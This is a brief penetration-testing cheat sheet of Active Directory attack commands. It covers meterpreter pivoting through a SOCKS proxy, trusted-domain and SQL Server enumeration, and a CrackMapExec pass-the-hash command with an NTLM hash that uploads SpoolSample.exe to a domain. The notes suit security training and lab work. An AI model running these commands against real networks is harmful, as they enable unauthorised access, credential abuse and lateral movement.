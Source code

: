 # Cheat Sheet - Utilities

## Table of Contents

* [Tips](#Tips)
* [Setup Proxy](#SetupProxy)
* [Check for trusted domains](#Trusted)
* [Upload files using CrackMapExec](#CrackMapExec)
* [List scheduled tasks](#ListTasks)
* [Enumerate SQL Server](#EnumSQLServer)

### Tips<a name="Tips"></a>

* If the useraccountcontrol had TRUSTED_FOR_DELEGATION mean that the machin is configured to use unconstrained delegation.

* Generic Write can be exploited using PowerMad methode.

### Setup Proxy<a name="SetupProxy"></a>

```bash
meterpreter > run autoroute -s 172.16.112.151
auxiliary/server/socks_proxy
/etc/proxychains.conf
/etc/proxychains4.conf

ssh v0lk3n@192.168.x.x -D 9050  
```

### Check for trusted domains<a name="Trusted"></a>

```bash
nltest /trusted_domains
```

### Upload files using CrackMapExec<a name="CrackMapExec"></a>

```bash
proxychains crackmapexec smb -d dev.sinhack.com -u Administrator -H aad3b435b51404eeaad3b435b51404ee:525ca4cd9965c41b34a453259403f24d --put-file /home/Tools/SpoolSample.exe 
```


### List scheduled tasks (Windows)<a name="ListTasks"></a>

```bash
schtasks /query
```

### Enumerate SQL Server (Windows)<a name="EnumSQLServer"></a>

```bash
setspn -T tricky -Q MSSQLSvc/*
```
